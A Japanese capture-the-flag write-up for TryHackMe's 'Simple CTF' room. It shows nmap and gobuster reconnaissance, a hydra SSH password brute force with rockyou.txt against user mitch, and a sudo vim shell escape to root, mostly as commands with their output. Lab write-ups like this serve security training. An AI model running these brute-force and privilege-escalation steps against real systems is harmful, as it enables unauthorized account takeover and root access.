

# Simple CTF
[Simple CTF](https://tryhackme.com/room/easyctf)

## nampでポートスキャンを実施
```
┌─[✗]─[penguin@parrot]─[~/TryHackMe]
└──╼ $nmap -Pn -sC -sV -p- $IP -oN nmapscan_result
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 19:56 JST
Stats: 0:02:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 25.69% done; ETC: 20:04 (0:06:02 remaining)
Stats: 0:03:31 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 47.18% done; ETC: 20:04 (0:03:56 remaining)
Stats: 0:06:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 87.00% done; ETC: 20:03 (0:00:55 remaining)
Nmap scan report for 10.10.9.85
Host is up (0.30s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.135.141
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 452.18 seconds
```
##　Webサイトへアクセス
httpサービスが80番ポートで空いているので、アクセスしてみたがApacheのデフォルト画面なので、特に情報なし。

## アクセスできるファイル調査
gobusterでアクセスできるファイルがないか確認する。

```
┌─[penguin@parrot]─[~/TryHackMe]
└──╼ $gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.9.85
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 294]
/.hta                 (Status: 403) [Size: 289]
/.htpasswd            (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 298]
/simple               (Status: 301) [Size: 309] [--> http://10.10.9.85/simple/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

robots.txt及びsimpleにアクセスしてみる。
(よくみるとMitchというユーザーがいる)
- 以下はsimpleサイトの画面


## ユーザーに対して、パスワードクラッキングルーツを利用してみる
```
┌─[✗]─[penguin@parrot]─[~/TryHackMe]
└──╼ $hydra -l mitch -P /usr/share/wordlists/rockyou.txt -v -t 4 ssh://$IP:2222
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-06 20:48:52
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.76.52:2222/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://mitch@10.10.76.52:2222
[INFO] Successful, password authentication is supported by ssh://10.10.76.52:2222
[STATUS] 40.00 tries/min, 40 tries in 00:01h, 14344359 to do in 5976:49h, 4 active
[2222][ssh] host: 10.10.76.52   login: mitch   password: ******
[STATUS] attack finished for 10.10.76.52 (waiting for children to complete tests)
^C[ERROR] Received signal 2, going down ...
```

## sshでアクセスしてみる
該当ユーザーで、先ほどのパスワードを入力してみるとログイン成功。
ログインフォルダ配下にuser.txtを発見したので、内容を確認(内容は割愛)
```
┌─[penguin@parrot]─[~/TryHackMe]
└──╼ $ssh -p 2222 mitch@$IP
The authenticity of host '[10.10.76.52]:2222 ([10.10.76.52]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.76.52]:2222' (ED25519) to the list of known hosts.
mitch@10.10.76.52's password: 
Permission denied, please try again.
mitch@10.10.76.52's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$
```
## root権限の奪取
sudo -lコマンドで奪取できそうなコマンドがないか確認
```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

vimからroot権限を奪取する
```
# sudo /usr/bin/vim -c ':!/bin/sh'
# id                               
uid=0(root) gid=0(root) groups=0(root)
```
奪取できたので、後はフラグを確認して、完了